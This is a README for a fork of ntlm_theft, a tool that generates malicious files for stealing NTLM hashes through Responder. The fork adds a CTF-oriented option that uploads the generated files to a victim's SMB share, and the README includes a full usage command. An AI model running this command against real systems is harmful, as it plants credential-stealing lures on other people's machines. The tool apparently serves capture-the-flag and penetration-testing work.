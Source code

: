 This is a fork of [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) A tool to generate malicious files to steal ntlm hashes using responder. 
I have added an optional CTF arg (not realistic for realworld i don't think). This `upload` argument will take all the files generated byt ntlm_theft
and upload them to the victim defined by rserver andd rport


`python3 ntlm_theft.py --generate all --server 127.0.0.1 --filename 'dekstop' --upload -rserver localhost -rport 445 -smbuser guest -smbpass '' -d ./desktop/`
